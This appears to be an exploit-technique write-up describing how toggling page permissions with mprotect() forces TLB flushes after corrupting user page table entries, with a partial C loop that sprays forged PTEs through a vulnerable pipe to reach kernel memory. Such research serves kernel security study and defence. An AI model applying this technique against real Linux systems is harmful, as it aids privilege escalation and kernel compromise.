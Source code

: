 # Fast, Deterministic TLB Flushing for User PTE Exploits via mprotect()
This technique exploits a method to forcibly flush the Translation Lookaside Buffer (TLB) when user PTEs are modified to read or write arbitrary physical addresses. Typically, one might allocate a large chunk of memory to provoke a TLB flush, but in low-memory conditions—where the OOM (Out-Of-Memory) killer might be triggered—this approach becomes infeasible. Our solution is to rapidly toggle page permissions with mprotect(), guaranteeing a TLB flush in a fast and consistent manner, even under memory pressure.

- Eliminating Large Memory Allocations
Instead of allocating huge memory regions to force a TLB flush (risky under OOM conditions), we rely solely on changing existing page permissions. This approach works even in tight memory scenarios where the OOM killer would otherwise prevent new allocations.

- Fast and Consistent TLB Synchronization
By toggling permissions (e.g., R -> RWX -> R), we trigger quick, targeted TLB invalidations. This ensures immediate visibility of any changes to physical memory mapped by the user PTE, vastly reducing the time required to search or exploit the memory region.

## Technique Details
User PTE Modification
We manipulate user-space page table entries (PTEs) to point to arbitrary physical addresses, gaining direct read or write access to privileged memory content. However, these changes aren’t recognized unless the TLB is invalidated.

The permission flip (mprotect(..., PROT_READ | PROT_WRITE | PROT_EXEC) -> PROT_READ -> back to RWX) forces a TLB flush in all typical Linux environments.
This provides a reliable, universal mechanism to update TLB mappings without depending on unpredictable memory allocation behavior.
Compatible with Low-Memory Scenarios

```c
for (uint64_t i=0; i<0x10000; i++) {
        pte = 0x1000000 * i + 0x1401000; 
        pte |= 0x8000000000000067;
        printf("[+] searching %lx\n", pte);
        if (pte >= 0x80000000c0401067)
            break;
        for (int j=0; j<512; j++)
            ptes[j] = pte;
        read(vuln_pipe[1], dummy, sizeof(dummy)); 
        for (int j=0; j<32; j++) { // repeat overwriting PTE & mprotect -> TLB flush
			mprotect(&spray_addr[corrupted_mem_idx0][corrupted_mem_idx1], 0x1000, PROT_READ);
            busy_wait(10000);
            mprotect(&spray_addr[corrupted_mem_idx0][corrupted_mem_idx1], 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE);
			write(vuln_pipe[1], ptes, sizeof(ptes));  
			read(vuln_pipe[0], ptes, sizeof(ptes));
            [...]
        }
        mprotect(&spray_addr[corrupted_mem_idx0][corrupted_mem_idx1], 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC); // kernel text requires prot exec
    }
```

Even if the system is close to running out of memory (risking OOM killer triggers), our technique remains viable.
By avoiding huge allocations, we circumvent potential OOM kills, ensuring uninterrupted exploitation.
High Speed, Minimal Overhead
